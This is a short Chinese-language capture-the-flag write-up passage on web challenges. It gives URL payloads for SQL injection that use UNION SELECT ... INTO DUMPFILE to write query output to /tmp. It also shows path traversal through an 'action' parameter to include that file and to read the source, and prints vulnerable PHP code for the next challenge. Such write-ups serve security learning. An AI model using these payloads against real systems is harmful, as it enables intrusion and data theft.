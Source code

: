 无过滤，可以尝试盲注，但现在平台有5r/s的限制，懒得盲注了

可以把查询结果写到文件里

（注意权限，这里web目录没有写入权限，写到`/tmp`下）

```
/index.php?action=check&username=1') union select flag from flag into dumpfile '/tmp/a.php'%23&password=1

/index.php?action=../../../../../tmp/a
```

## 488-代码审计

还是读源码

```
/index.php?action=../index
```

sql语句修改过了，这条路不可行，再看看别的

```php
<?php
    
include('render/render_class.php');
include('render/db_class.php');
    
$action=$_GET['action'];
if(!isset($action)){
	header('location:index.php?action=login');
	die();	
}

if($action=='check'){
	$username=$_GET['username'];
	$password=$_GET['password'];
	$sql = "select id from user where username = '".md5($username)."' and password='".md5($password)."' order by id limit 1";
	$user=db::select_one($sql);
	if($user){
		templateUtil::render('index',array('username'=>$username));
	}else{
		templateUtil::render('error',array('username'=>$username));
	}
}

if($action=='login'){
	templateUtil::render($action);
}else{
	templateUtil::render($action);
}
```
